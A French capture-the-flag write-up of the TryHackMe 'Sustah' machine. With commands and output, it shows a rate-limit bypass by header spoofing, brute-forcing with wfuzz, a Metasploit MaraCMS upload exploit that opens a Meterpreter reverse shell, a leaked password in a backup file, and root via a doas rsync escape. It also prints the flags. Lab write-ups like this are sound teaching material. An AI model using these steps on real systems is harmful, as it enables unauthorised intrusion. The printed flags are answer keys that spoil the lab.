



# Sustah #

## Task 1 Sustah ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.121.28 Sustah.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A Sustah.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-15 11:44 CEST
Nmap scan report for Sustah.thm (10.10.121.28)
Host is up (0.033s latency).
rDNS record for 10.10.121.28: Sustah
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bd:a4:a3:ae:66:68:1d:74:e1:c0:6a:eb:2b:9b:f3:33 (RSA)
|   256 9a:db:73:79:0c:72:be:05:1a:86:73:dc:ac:6d:7a:ef (ECDSA)
|_  256 64:8d:5c:79:de:e1:f7:3f:08:7c:eb:b7:b3:24:64:1f (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Susta
8085/tcp open  http    Gunicorn 20.0.4
|_http-server-header: gunicorn/20.0.4
|_http-title: Spinner
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=9/15%OT=22%CT=1%CU=36586%PV=Y%DS=2%DC=T%G=Y%TM=6141C09
OS:4%P=x86_64-pc-linux-gnu)SEQ(SP=F9%GCD=1%ISR=104%TI=Z%CI=I%II=I%TS=8)OPS(
OS:O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11
OS:NW6%O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(
OS:R=Y%DF=Y%T=40%W=6903%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 587/tcp)
HOP RTT      ADDRESS
1   32.78 ms 10.9.0.1
2   33.07 ms Sustah (10.10.121.28)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.46 seconds

```

Ici on voit 2 service :   
Le servie SSH sur le port  22.   
Le service HTTP sur le port 80 et 8085.     


Sur la page principale sur le port 80 on a une page avec pas grand chose.  



Sur le port 8085 on a une page avec un jeu de la roulette ou on a 0.004% de chance de gagner.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://sustah.thm:8085 -s| grep input -A 2
    <form  method="post" class="inputs">
        <input placeholder="Input" type="number" name="number">
        <button type="submit" class="btn draw-border">Click</button>

tim@kali:~/Bureau/tryhackme/write-up$ seq 99999 > list.txt

tim@kali:~/Bureau/tryhackme/write-up$ wfuzz -z file,./list.txt -d "number=FUZZ"  --hs "unlucky"  --hc 302 http://sustah.thm:8085/
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://sustah.thm:8085/
Total requests: 20000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                      
=====================================================================

000000029:   429        1 L      3 W        33 Ch       "29"                                                                                                                                                                         
000000031:   429        1 L      3 W        33 Ch       "31"                                                                                                                                                                         
000000039:   429        1 L      3 W        33 Ch       "39"                                                                                                                                                                         
000000053:   429        1 L      3 W        33 Ch       "53"                                                                                                                                                                         
000000056:   429        1 L      3 W        33 Ch       "56"                                                                                                                                                                         
000000051:   429        1 L      3 W        33 Ch       "51"            
```

On bout d'un certain temps on à trop de réponse il y un problème où une protection.  

**What is the number that revealed the path?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wfuzz -z file,./list.txt -H "X-Remote-Addr:127.0.0.1" -d "number=FUZZ"  --hs "unlucky" --hc 302  http://sustah.thm:8085/ 
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://sustah.thm:8085/
Total requests: 20000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                      
=====================================================================

000010921:   200        38 L     73 W       975 Ch      "10921"                                                                                                                                                                      

Total time: 141.2729
Processed Requests: 20000
Filtered Requests: 19999
Requests/sec.: 141.5699
```

On modifie l'entête du fichier pour dire que l'on vient du localhost.  
Une fois la protection passée, le brute forcing fonctionne on a une la réponse 10921.   

**Name the path.**



On rentre le code et on valide et on trouve la réponse : /YouGotTh3P@th/

**What is the name of CMS?**

 

En mettant le nouveau chemin on tombe sur une nouvelle page.  
La fin de la page on trouve le nom du cms. 

La nom du CMS est : Mara

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://sustah.thm/YouGotTh3P@th/ -w /usr/share/dirb/wordlists/common.txt -q -x txt,jpg,html
/.hta.jpg             (Status: 403) [Size: 275]
/.hta.html            (Status: 403) [Size: 275]
/.hta                 (Status: 403) [Size: 275]
/.htaccess.html       (Status: 403) [Size: 275]
/.hta.txt             (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd.html       (Status: 403) [Size: 275]
/.htaccess.txt        (Status: 403) [Size: 275]
/.htpasswd.txt        (Status: 403) [Size: 275]
/.htaccess.jpg        (Status: 403) [Size: 275]
/.htpasswd.jpg        (Status: 403) [Size: 275]
/blog                 (Status: 301) [Size: 321] [--> http://sustah.thm/YouGotTh3P@th/blog/]
/changes.txt          (Status: 200) [Size: 627]                                            
/css                  (Status: 301) [Size: 320] [--> http://sustah.thm/YouGotTh3P@th/css/] 
/img                  (Status: 301) [Size: 320] [--> http://sustah.thm/YouGotTh3P@th/img/] 
/index.php            (Status: 200) [Size: 14019]                                          
/log                  (Status: 301) [Size: 320] [--> http://sustah.thm/YouGotTh3P@th/log/] 
/plugin               (Status: 301) [Size: 323] [--> http://sustah.thm/YouGotTh3P@th/plugin/]
/template             (Status: 301) [Size: 325] [--> http://sustah.thm/YouGotTh3P@th/template/]
/theme                (Status: 301) [Size: 322] [--> http://sustah.thm/YouGotTh3P@th/theme/]   
```

**What version of the CMS is running?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://sustah.thm/YouGotTh3P@th/changes.txt
Mara 7.5:

Race hazard causing partial upload of media fixed. (Uploader briefly signalling 'idle' between uploads could be taken as completion on slow processor. Flag changed to 'alldone' to avoid ambiguity.) 

CK updated to 4.11.1 (4.9 also provided in case of any compatibility issues with existing sites - Just rename folders.) 

Media handing - .svg graphics file capability added. 

Added inclusion of js and css from the page head. 
 This can be turned off in siteini.php if necessary, it's the phjscss item in [site] 
 -If it's not needed, turning off will save a little on page load time and processor usage.
```

Avec gobuster on trouve le fichier changes.txt.   
On le lit et on trouve la version du cms qui la : 7.5  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ msfconsole -q
[!] The following modules could not be loaded!
[!] 	/usr/share/metasploit-framework/modules/auxiliary/gather/office365userenum.py
[!] Please see /home/tim/.msf4/logs/framework.log for details.
msf6 > search mara 7.5

Matching Modules
================

   #  Name                                     Disclosure Date  Rank       Check  Description
   -  ----                                     ---------------  ----       -----  -----------
   0  exploit/multi/http/uptime_file_upload_2  2013-11-18       excellent  Yes    Idera Up.Time Monitoring Station 7.4 post2file.php Arbitrary File Upload
   1  exploit/multi/http/maracms_upload_exec   2020-08-31       excellent  Yes    MaraCMS Arbitrary PHP File Upload


Interact with a module by name or index. For example info 1, use 1 or use exploit/multi/http/maracms_upload_exec

msf6 > use 1
[*] Using configured payload php/meterpreter/reverse_tcp

msf6 exploit(multi/http/maracms_upload_exec) > options

Module options (exploit/multi/http/maracms_upload_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   changeme         yes       Password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to MaraCMS
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   admin            yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP

msf6 exploit(multi/http/maracms_upload_exec) > set RHOSTS sustah.thm
RHOSTS => sustah.thm
msf6 exploit(multi/http/maracms_upload_exec) > set TARGETURI /YouGotTh3P@th/
TARGETURI => /YouGotTh3P@th/
msf6 exploit(multi/http/maracms_upload_exec) > set LHOST 10.9.228.66
LHOST => 10.9.228.66

[*] Started reverse TCP handler on 10.9.228.66:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Target is most likely MaraCMS with version 7.5 or lower
[*] Obtained salt `7703` from server. Using salt to authenticate...
[+] Successfully authenticated to MaraCMS
[*] Uploading payload as S4BJJHxj.php...
[+] Successfully uploaded S4BJJHxj.php
[*] Executing the payload...
[*] Sending stage (39282 bytes) to 10.10.121.28
[+] Deleted S4BJJHxj.php
[*] Meterpreter session 1 opened (10.9.228.66:4444 -> 10.10.121.28:50322) at 2021-09-15 16:05:19 +0200

meterpreter > 
```

On lance metesploit.
On trouve une faille sur mara 7.5 qui nous permet d'avoir un shell.   
On le configure et on a un shell.   

```bash
meterpreter > shell
Process 4154 created.
Channel 0 created.
Channel 0 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

ls /home/ 
kiran
ls -al /home/kiran/
total 28
drwxr-xr-x 5 kiran kiran 4096 Dec  9  2020 .
drwxr-xr-x 3 root  root  4096 Dec  7  2020 ..
-rw------- 1 kiran kiran    0 Dec  9  2020 .bash_history
drwx------ 2 kiran kiran 4096 Dec  9  2020 .cache
drwxr-x--- 3 kiran kiran 4096 Dec  6  2020 .config
drwx------ 2 kiran kiran 4096 Dec  6  2020 .gnupg
-rw-r--r-- 1 kiran kiran  670 Dec  9  2020 .profile
-r-------- 1 kiran kiran   33 Dec  9  2020 user.txt

python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu-xenial:/$ 
```

On voit un utilisateur kiran mais on a pas le droit de lire user.txt.  
On stabilise le shell.  

```bash
www-data@ubuntu-xenial:/$ locate backup
locate backup
/sbin/vgcfgbackup
/usr/lib/open-vm-tools/plugins/vmsvc/libvmbackup.so
/usr/share/bash-completion/completions/vgcfgbackup
/usr/share/man/man8/vgcfgbackup.8.gz
/usr/share/sosreport/sos/plugins/ovirt_engine_backup.py
/usr/share/sosreport/sos/plugins/__pycache__/ovirt_engine_backup.cpython-35.pyc
/usr/src/linux-headers-4.4.0-194-generic/include/config/net/team/mode/activebackup.h
/usr/src/linux-headers-4.4.0-194-generic/include/config/wm831x/backup.h
/var/backups
cd /var/backups
www-data@ubuntu-xenial:/var/backups$ ls -al
ls -al
total 636
drwxr-xr-x  2 root root     4096 Dec  9  2020 .
drwxr-xr-x 14 root root     4096 Dec  6  2020 ..
-r--r--r--  1 root root     1722 Dec  6  2020 .bak.passwd
-rw-r--r--  1 root root    51200 Dec  6  2020 alternatives.tar.0
-rw-r--r--  1 root root     6308 Dec  9  2020 apt.extended_states.0
-rw-r--r--  1 root root      715 Dec  6  2020 apt.extended_states.1.gz
-rw-r--r--  1 root root      509 Nov 12  2020 dpkg.diversions.0
-rw-r--r--  1 root root      207 Dec  6  2020 dpkg.statoverride.0
-rw-r--r--  1 root root   547201 Dec  6  2020 dpkg.status.0
-rw-------  1 root root      849 Dec  6  2020 group.bak
-rw-------  1 root shadow    714 Dec  6  2020 gshadow.bak
-rw-------  1 root root     1695 Dec  6  2020 passwd.bak
-rw-------  1 root shadow   1031 Dec  6  2020 shadow.bak

www-data@ubuntu-xenial:/var/backups$ cat .bak.passwd
cat .bak.passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
vagrant:x:1000:1000:,,,:/home/vagrant:/bin/bash
ubuntu:x:1001:1001:Ubuntu:/home/ubuntu:/bin/bash
kiran:x:1002:1002:trythispasswordforuserkiran:/home/kiran:
```

On trouve un répertoire backup.  
Dans le répertoire on trouve un fichier .bak.passwd qui est lissible.  
On le lit et on trouve le mot de passe de kiran qui est : trythispasswordforuserkiran  

**What is the user flag?**

```bash
www-data@ubuntu-xenial:/var/backups$ su kiran
su kiran
Password: trythispasswordforuserkiran
kiran@ubuntu-xenial:/var/backups$ 
kiran@ubuntu-xenial:/var/backups$ cat /home/kiran/user.txt

cat /home/kiran/user.txt
6b18f161b4de63b5f72577c737b7ebc8
```

On se connecte au compte sur kiran.   
On lit le fichier.txt.   
Et on obtient le flage qui est : 6b18f161b4de63b5f72577c737b7ebc8   

**What is the root flag?**

```bash
cat /usr/local/etc/doas.conf
 permit nopass kiran as root cmd rsync


kiran@ubuntu-xenial:/tmp$ doas rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
<oas rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null                     
# id
id
uid=0(root) gid=0(root) groups=0(root)

cat /root/root.txt
afbb1696a893f35984163021d03f6095
```

On voit que doas.conf peut exécuter rsync sans mot de passe avec les droits administrateur.   
On exécute un rsync pour qu'il nous donne un shell avec les droits root.   

La réponse est : afbb1696a893f35984163021d03f6095  